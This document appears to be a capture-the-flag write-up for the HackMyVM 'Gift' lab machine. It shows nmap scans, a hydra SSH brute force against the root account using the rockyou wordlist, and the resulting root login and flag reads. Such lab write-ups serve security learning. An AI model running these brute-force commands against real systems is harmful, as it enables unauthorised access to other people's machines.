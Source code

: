 ```yaml
---
title: HackMyVM - Gift
description: My writeup on Gift box.
categories:
 - HackMyVM
tags: HackMyVM hydra
---
```


![](https://i.imgur.com/WsPkMSl.png)

You can start playing there > [HackMyVM](https://hackmyvm.eu/){:target="_blank"}

## Summary

This one is a really easy box, all we've to do is a SSH brute force attack. This will provice us a root shell. Free points box haha. Let’s pwn it! :sunglasses:

## Enumeration/Reconnaissance

Let's start as always with nmap.

```
$ ip=192.168.1.19
$ nmap -p- --min-rate 10000 $ip
Starting Nmap 7.80 ( https://nmap.org ) at 2020-10-01 13:56 EEST
Nmap scan report for gift.zte.com.cn (192.168.1.19)
Host is up (0.00044s latency).
Not shown: 65533 closed ports
PORT   STATE SERVICE
22/tcp open  ssh
80/tcp open  http
MAC Address: 08:00:27:43:70:47 (Oracle VirtualBox virtual NIC)

Nmap done: 1 IP address (1 host up) scanned in 2.29 seconds
$ nmap -p 22,80 -sC -sV -oN nmap/initial $ip
Starting Nmap 7.80 ( https://nmap.org ) at 2020-10-01 13:56 EEST
Nmap scan report for gift.zte.com.cn (192.168.1.19)
Host is up (0.00046s latency).

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.3 (protocol 2.0)
80/tcp open  http    nginx
|_http-title: Site doesn't have a title (text/html).
```

port 80 just has a message: 

```
$ curl http://$ip/

Dont Overthink. Really, Its simple.
	<!-- Trust me -->
```

## Shell as root

I tried ton of stuff because i always overthink but in the end was just a brute force on root user:

```
$ hydra -l root -P /usr/share/wordlists/rockyou.txt $ip ssh

[DATA] max 16 tasks per 1 server, overall 16 tasks, 14344399 login tries (l:1/p:14344399), ~896525 tries per task
[DATA] attacking ssh://192.168.1.19:22/
[STATUS] 178.00 tries/min, 178 tries in 00:01h, 14344223 to do in 1343:06h, 16 active
[22][ssh] host: 192.168.1.19   login: root   password: simple
```

```
$ ssh root@$ip
root@192.168.1.19's password: 
IM AN SSH SERVER
gift:~# whoami;id
root
uid=0(root) gid=0(root) groups=0(root),0(root),1(bin),2(daemon),3(sys),4(adm),6(disk),10(wheel),11(floppy),20(dialout),26(tape),27(video)
```

Let's read the flags:

```
gift:~# cat root.txt | cut -c1-5
HMVty
gift:~# cat user.txt | cut -c1-5
HMV66
```

Free points yay! :P
